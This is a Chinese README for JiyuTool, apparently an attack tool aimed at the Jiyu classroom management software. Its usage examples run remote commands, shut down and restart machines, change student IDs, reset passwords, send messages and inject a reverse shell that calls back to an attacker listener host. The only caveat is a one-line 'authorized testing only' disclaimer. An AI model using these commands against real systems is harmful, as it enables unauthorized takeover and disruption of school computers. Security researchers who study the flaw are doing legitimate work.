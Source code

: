 # JiyuTool

JiyuTool 是一款用于通过特定协议与远程系统通信的工具，支持远程命令执行、关机重启、发送消息、修改ID等功能，还可发起反向Shell连接。

## 功能特性

- 远程执行命令
- 修改学生端 ID
- 重置密码
- 关机与重启控制
- 发送消息
- 发起反向 Shell

## 使用方法

### 环境依赖

- Python 3.6+

### 命令行参数

```
python main.py --ip <目标IP> [--port <目标端口>] <command> [command_options]
```

#### 可用命令

```
# 关机
python script.py --ip 192.168.1.10 power --shutdown

# 重启
python script.py --ip 192.168.1.10 power

# 执行命令
python script.py --ip 192.168.1.10 exec --cmd "whoami"

# 发消息
python script.py --ip 192.168.1.10 message --msg "请保存好你的文件，系统将重启"

# 修改学生ID
python script.py --ip 192.168.1.10 id --tid 12

# 重置密码
python script.py --ip 192.168.1.10 reset --pwd newpass123

# 注入反向shell
python script.py --ip 192.168.1.10 shell --lhost 10.20.73.20
```



## 注意事项

- 仅供授权测试使用！禁止用于非法用途！


